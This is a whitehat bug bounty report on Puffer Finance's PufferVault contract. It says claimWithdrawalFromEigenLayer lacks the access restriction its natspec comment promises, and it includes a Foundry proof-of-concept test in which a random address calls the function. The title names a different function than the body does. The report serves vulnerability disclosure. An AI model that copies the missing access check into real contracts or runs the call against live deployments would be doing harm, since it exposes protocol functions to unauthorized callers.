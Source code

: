 # `PufferVault::claimWithdrawalFromLido`, according to natspec, should be restrcited but it is lacking restricted modifier
Submitted about 2 months ago by @ihtishamsudo (Whitehat) for Boost | Puffer Finance

Report ID: #28813

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Contract fails to deliver promised returns, but doesn't lose value

# Details
Description

# Brief/Intro
`claimWithdrawalFromEigenLayer` should be restricted access, according to natspec but unlike other functions it has not implemented restricted function

# Vulnerability Details
`PufferVault::claimWithdrawalFromEigenLayer` function is used to claim `stETH` withdrawals from `Eigen Layer` and it netspac indicates that it should be `restricted access` as shown below

```
    /**
           * @notice Claims stETH withdrawals from EigenLayer
@>         * Restricted access
           * @param queuedWithdrawal The queued withdrawal details
           * @param tokens The tokens to be withdrawn
           * @param middlewareTimesIndex The index of middleware times
     */
```

But it does not implement `restricted` modifier, whereas every other function having restricted access in natspec implemented the restricted function clearly but it clearly doesn't implement.

# Impact Details
As far as the `netspac` indicates that it should be restricted access so only restricted address can call it but having no restricted modifer means anyone can call this function.

# References
https://github.com/PufferFinance/pufETH/blob/d340d40a2ebb72993cd7dd6049a78a01bcef32ae/src/PufferVault.sol#L217

https://github.com/PufferFinance/pufETH/blob/d340d40a2ebb72993cd7dd6049a78a01bcef32ae/src/PufferVault.sol#L226

# Proof of concept

Here is the test in `PufferTest.integration.t.sol` that is testing withdrawal from Eigen layer and this test is using `OPERATION_MULTISIG` address to call every function in this test and `OPERATION_MULTISIG` is one of the puffer team address.

But what if we mold the test to let any random address to call claim withdrawal. For this we have to let `OPERATION_MULTISIG` stop prank and prank it with a random address right before claim withdrawal.

```
function test_withdraw_from_eigenLayer()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), address(pufferVault), 1000 ether) // Blast got a lot of stETH
    {
        // Simulate stETH cap increase call on EL
        _increaseELstETHCap();

@>        vm.startPrank(OPERATIONS_MULTISIG); //normal called by multisig (restricted address) puffer team address
        pufferVault.depositToEigenLayer(stETH.balanceOf(address(pufferVault)));

        uint256 ownedShares = _EIGEN_STRATEGY_MANAGER.stakerStrategyShares(address(pufferVault), _EIGEN_STETH_STRATEGY);

        uint256 assetsBefore = pufferVault.totalAssets();

        // Initiate the withdrawal
        pufferVault.initiateStETHWithdrawalFromEigenLayer(ownedShares);

        // 1 wei diff because of rounding
        assertApproxEqAbs(assetsBefore, pufferVault.totalAssets(), 1, "should remain the same when locked");

        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(stETH));

        IStrategy[] memory strategies = new IStrategy[](1);
        strategies[0] = IStrategy(_EIGEN_STETH_STRATEGY);

        uint256[] memory shares = new uint256[](1);
        shares[0] = ownedShares;

        IEigenLayer.WithdrawerAndNonce memory withdrawerAndNonce =
            IEigenLayer.WithdrawerAndNonce({ withdrawer: address(pufferVault), nonce: 0 });

        IEigenLayer.QueuedWithdrawal memory queuedWithdrawal = IEigenLayer.QueuedWithdrawal({
            strategies: strategies,
            shares: shares,
            depositor: address(pufferVault),
            withdrawerAndNonce: withdrawerAndNonce,
            withdrawalStartBlock: uint32(block.number),
            delegatedAddress: address(0)
        });
@>  vm.stopPrank()     //stop `OPEATION_MULTISIG` call       
        // Roll block number + 100k blocks into the future
        vm.roll(block.number + 100000);
@>  vm.prank(address(5)) // Pranked with a random address and test it
        // Claim Withdrawal
        pufferVault.claimWithdrawalFromEigenLayer(queuedWithdrawal, tokens, 0);

        // 1 wei diff because of rounding
        assertApproxEqAbs(assetsBefore, pufferVault.totalAssets(), 1, "should remain the same after withdrawal");
    }
```

And the test passes
```
Running 2 tests for test/Integration/PufferTest.integration.t.sol:PufferTest
[PASS] test_withdraw_from_eigenLayer() (gas: 660064)
[PASS] test_withdraw_from_eigenLayer_dos() (gas: 888388)
Test result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.34s

Ran 1 test suites: 2 tests passed, 0 failed, 0 skipped (2 total tests)
```

If the proper restricted modifier was implemented correctly than this test should've been failed but lack of it let any random address to call this function.

